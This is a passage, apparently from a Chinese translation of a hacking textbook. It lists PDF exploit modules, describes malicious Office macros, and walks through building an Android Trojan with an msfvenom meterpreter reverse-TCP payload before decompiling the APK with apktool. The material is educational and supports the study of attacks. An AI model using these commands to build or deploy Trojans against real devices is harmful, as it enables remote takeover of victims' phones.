 ```
  14) Adobe util.printf() Buffer Overflow

...

  17) Adobe PDF Embedded EXE Social Engineering (NOJS)

  18) Foxit PDF Reader v4.1.1 Title Stack Buffer Overflow

  19) Apple QuickTime PICT PnSize Buffer Overflow
```

微软 Office 文档，如 Word、Excel 和 PowerPoint 文件，支持 *宏*，这是用户可以编写的小程序，用于自动化 Office 文档中的任务。宏会在你打开文档时运行；然而，由于宏存在安全风险，微软 Office 默认禁用宏。每当文档包含宏时，微软 Office 会显示一个横幅，允许用户启用宏。攻击者可以将恶意宏嵌入文档中，当用户打开文档时，宏会下载并执行一个 shell。在 2021 年，一名国家支持的攻击者利用一个恶意的 Word 文档入侵了一个俄罗斯国防承包商。你可以在卡巴斯基网站上阅读 Lazarus 组织对该攻击的详细介绍。

现在我们已经研究了为桌面和服务器创建 Trojan 的技术，接下来让我们为移动和嵌入式设备创建 Trojan。

### **创建 Android Trojan**

为 Android 设备创建 Trojan 的过程几乎与为 Linux 设备创建 Trojan 的过程相同。目录结构可能有所不同，但正如你在本章中之前所做的，你将修改一个安装包来安装你的植入物。

Android 安装包称为*Android 包（APK）*文件。该文件包含 Android 操作系统安装新应用所需的所有内容。首先，我们将使用`msfvenom`生成一个恶意 APK。创建一个名为*AndroidTrojan*的新桌面文件夹，并导航到该文件夹：

```
kali@kali:~$ cd ~/Desktop/AndroidTrojan
```

接下来，生成一个包含反向 shell 植入的恶意 APK：

```
kali@kali:~/Desktop/AndroidTrojan$ msfvenom -p android/meterpreter/reverse_tcp

			 LHOST= <Kali IP address> LPORT=443 > malicious.apk
```

该命令生成一个新的 Android APK，并将恶意代码嵌入其中。在接下来的章节中，我们将反汇编这个应用并讨论它的结构，以便你能够创建自己的 Android 木马。

#### ***反构 APK 以查看植入代码***

上面的命令为你完成了所有工作。为了理解它是如何隐藏植入代码的，让我们反编译*malicious.apk*安装文件并探索它的目录结构。我们将使用`apktool`这个逆向工程工具来反编译 APK。运行以下命令来下载并安装`apktool`：

```
kali@kali:~/Desktop/AndroidTrojan$ sudo apt-get install apktool
```

要反编译（`d`）该文件，运行以下命令：

```
kali@kali:~/Desktop/AndroidTrojan$ apktool d malicious.apk
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
I: Using Apktool 2.4.1-dirty on malicious2.apk
I: Loading resource table...
I: Decoding AndroidManifest.xml with resources...
I: Loading resource table from file: /home/kali/.local/share/apktool/framework/1.apk
I: Regular manifest package...
I: Decoding file-resources...

...
```

